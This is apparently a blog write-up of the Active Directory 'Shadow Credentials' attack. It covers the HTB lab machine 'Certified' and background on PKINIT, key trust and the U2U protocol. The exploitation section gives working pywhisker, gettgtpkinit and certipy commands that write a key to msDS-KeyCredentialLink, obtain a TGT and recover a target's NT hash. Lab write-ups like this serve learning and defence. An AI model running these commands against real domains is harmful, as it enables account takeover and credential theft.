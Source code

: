 ```yaml
---
title: shadow credentiels
published: 2025-03-08
description: ''
image:  ../../assets/shadow_credentiels/shadow-credentials.webp
tags: [AD, PKINIT, ACL]
category: ''
draft: false 
lang: ''
---
```


The Shadow Credentials attack is a technique used to compromise Active Directory (AD) by abusing Kerberos authentication and modifying specific attributes of AD objects to gain unauthorized access.

shadow credentials occurs when an attacker have rights to modify the `msDS-KeyCredentialLink` (`GenericAll`_, _`GenericWrite`_ or _`WriteAccountRestrictions` ) attribute in an user/machine aacount 


## what is the `msDS-KeyCredentialLink` attribute

the `msDS-KeyCredentialLink` is used to store public key used by the account for authentication. When a certificate is added to a machine account, it is stored in this attribute.

:::warning
although most of the time the `msDS-KeyCredentialLink` is used by machine accounts it can also be used in user accounts
:::

## shadow credentiels

Managing and modifying the `msDS-KeyCredentialLink` attribute is an action that requires specific permissions, typically held by accounts that are members of highly privileged groups. (like `GenericAll`_,_ `GenericWrite` _or_ `WriteAccountRestrictions`)

#### steps:
* enumerate our users DACL rights and see if we have any of the write rights (`GenericAll`_,_ `GenericWrite` _or_ `WriteAccountRestrictions`) on an object 
* try to modify the value of the `msDS-KeyCredentialLink` attribute with attackers public key
* request a PFX certificate for this target user from the CA
* use that certificate to authenticate on behalf of the target user

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_1.png)


# The attack (HTB machine 'certified')
we have control over the `MANAGEMENT` groupe that have a `genericWrite` on the `mnanagement_svc` account

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_2.png)

### Exploitation

#### set the msDS-KeyCredentialLink attribute
The exploitation phase begins with populating the `msDS-KeyCredentialLink` attribute
```bash
python3 ~/work/tools/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --verbose
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_3.png)

_PyWhisker_ will automatically generate a public/private keys and save it locally. It even guides you on the next steps to obtain a Ticket Granting Ticket (TGT).


#### Acquiring a TGT for the user account (management_svc)
we use the command provided by the pywishker at the end

```bash
python3 ~/work/tools/PKINITtools/gettgtpkinit.py -cert-pfx U7IaGnXc.pfx -pfx-pass zUkBgckwFjnRehrzJHup certified.htb/management_svc U7IaGnXc.ccache
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_4.png)


#### Recover the NT Hash of the user account

1) first we need to remove the certificate password from our .pfx because certipy cant work with those:
	```bash
	certipy cert -export -pfx "U7IaGnXc.pfx" -password "zUkBgckwFjnRehrzJHup" -out unprotected_pfx.pfx
	```

2) Next, authenticate using _Certipy_ and retrieve the user’s hash through the U2U protocol:
```bash
certipy auth -pfx unprotected_pfx.pfx -username "management_svc" -domain "certified.htb"
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_5.png)

now we can use that NTLM hash for authetication


# More detailed explanation

## What is PKI ?

the usual model for kerberos authentication is asking the KDC for a TGT by sending the encrypted timestamp using the user's password hash
![](src/assets/shadow_credentiels/Shadow%20credentiels_image_6.png)

this uses symmetric cryptography schemes like RC4, AES ..

but it is possible to do this authentication using asymmetric ciphers like RSA using PKINT


### Steps

the client generate a public-private key pair and uses the private key to sign (encrypt) the timestamp, then send it along the way with his public key (or certificate) as a `AS-REQ` request.

then the server verifies the legitimacy of the public key (certificate), and try to decrypt the  encrypted timestamp with the client public key, if the timestamp is valid then it respond with  `AS-RESP` containing the TGT and the session key

#### the session key:
the session key is used for encrypting the service tickets so it should be a secret that only the client and KDC should know.
the session key is calculated either by using **KEY EXCHANGE** or **Public Key Encryption Key Delivery** AKA **KEY ENCAPSULATION** 


![](src/assets/shadow_credentiels/Shadow%20credentiels_image_7.png)

Here because we have a CA that both parties trust it is possible to verify the legitimacy of the public key (certificate)  using certificate root of trust mechanism, but what if we dont have a PKI ?

## what if we don't have a PKI
instead of using certificate root of trust, we can use key root of trust, which uses the raw data of the public key and store it in an LDAP attribute called `msDS-KeyCredentialLink`[parsing the msDS-KeyCredentialLink attribute](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)
```fallback
  msDS-KeyCredentialLink  | 'B:828:0002000020000108E2E5....' |
```
![](src/assets/shadow_credentiels/Shadow%20credentiels_image_8.png)

:::warning
**This means that if you can write to the msDS-KeyCredentialLink property of a user, you can obtain a TGT for that user.**
:::

## What About NTLM?
PKINIT allows WHfB users, or, more traditionally, smartcard users, to perform Kerberos authentication and obtain a TGT. But what if they need to access resources that require NTLM authentication?

the client can obtain a special TGS that contains their NTLM hash inside the PAC in an encrypted `NTLM_SUPPLEMENTAL_CREDENTIAL`

the PAC is stored in the encrypted part of the TGS, and it is encrypted with the hash of the request service, in the case of TGT it is encrypted with krbtgt password's hash

#### the U2U service
this service give users abilities to request other users NTLM hashs
YES you heard that right

BUUUT! the NTLM hash is encrypted in the ticket srvice TGS using the session key (that was calculated with the TGT) so bruteforcing or cracking this encrypted NTLM is almost impossible

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_9.png)

:::warning
**This means that if you can write to the msDS-KeyCredentialLink property of a user, you can retrieve the NT hash of that user.**
:::


blog: https://i-tracing.com/blog/dacl-shadow-credentials/
original paper:  https://eladshamir.com/2021/06/21/Shadow-Credentials.html